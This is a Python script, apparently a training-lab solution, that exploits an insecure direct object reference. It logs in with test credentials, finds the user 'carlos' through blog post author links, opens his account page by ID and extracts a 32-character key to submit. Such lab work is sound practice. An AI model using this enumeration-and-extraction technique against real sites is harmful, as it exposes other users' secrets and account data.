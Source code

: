 ```python=
soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    "csrf": csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session,
}

for i in range(11):
    params = {
        'postId': i,
    }

    response = requests.get(
        url + '/post',
        params=params,
        cookies=cookies,
        verify=False,
    )
    if "carlos" in response.text:
        break

soup = BeautifulSoup(response.text, 'html.parser')
user_id = soup.find('span', {'id': 'blog-author'}).find('a')['href'].split('=')[1]

params = {
    'id': user_id,
}
response = requests.get(
    url + '/my-account',
    params=params,
    verify= False,
)

pattern = r'\b\w{32}\b'
match = re.search(pattern, response.text).group()

data = {
    'answer': match,
}

response = requests.post(
    url + '/submitSolution',
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
```